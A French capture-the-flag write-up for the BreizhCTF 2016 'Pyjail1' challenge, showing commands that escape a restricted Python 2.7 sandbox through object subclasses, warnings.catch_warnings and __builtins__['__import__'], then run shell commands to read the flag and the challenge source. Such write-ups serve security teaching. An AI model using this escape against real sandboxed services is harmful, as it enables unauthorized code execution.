 # BREIZHCTF 2K16
**Chall:** Pyjail1 |
**Points:** 300 |
**Taux de réussite:** 36% |



Le titre de ce challenge nous donne un bonne piste pour le résoudre.
Pour commnecer on cherche les fonctions autorisées.

En essayant quelques une on découvre que y a seulement la fonction dir qui est autorisée.

L'idée pour résoudre ce chall est de trouver une méthode accessible qui pourrait nous permettre d'exécuter une commande sur le système ou de trouver un chemin vers la fonction "__import__" de python afin de charger le modue "os".


En exécutant la commande suivante sur le serveur on obtient une liste de types et de classes accessbiles depuis notre "jail" :
```
>print ().__class__.__base__.__subclasses__()

[..., <class 'warnings.catch_warnings'>, ...]
```
On obtient une impotante liste de classes et de type exploitable.
Nous allons exploiter la classe "warnings.catch_warnings" car elle a un attribut qui nous intéresse "_module". (cf: https://hg.python.org/cpython/file/2.7/Lib/warnings.py)

On commence par crée une instace de cette classe dans une variable :
```
>wclass = ().__class__.__base__.__subclasses__()[59]()

```

Ensuite on regarde ce le contenu de l'attribut "_module"
```
>print wclass._module
<module 'warnings' from '/usr/lib/python2.7/warnings.pyc'>
>print dir(wclass._module)
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']

```

Un attribut très intéressant apparait, c'est "\__builtins\__".
```
>print wclass._module.__builtins__
 {..., '__import__': <built-in function __import__>, ...}
```
Et bingo, on a accès la fonction "__import__".

Maintenant qu'on a accès à cette fonction il ne reste plus qu'à importer le module os et exécuter des commandes sur le système afin de récupérer le flag.

```
>print wclass._module.__builtins__['__import__']('os').popen("pwd && ls -alR ").read()
>print wclass._module.__builtins__['__import__']('os').popen("cat flag").read()
BZH{flag flag \o/}
```
PS:  j'ai oublié de copier le flag ^^

De même on exécute une commande pour récupérer le code du chall "cat python_vm1.py".


